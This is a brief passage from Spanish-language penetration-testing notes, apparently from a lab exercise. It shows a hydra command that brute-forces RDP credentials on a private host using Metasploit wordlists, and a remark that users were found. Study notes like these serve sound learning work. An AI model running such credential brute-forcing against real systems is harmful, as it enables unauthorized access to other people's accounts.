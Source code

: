 ```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333
```
Y nos encuentra los siguientes usuarios:
![[Mis apuntes/ANEXOS/Pasted image 20230730165016.png]]
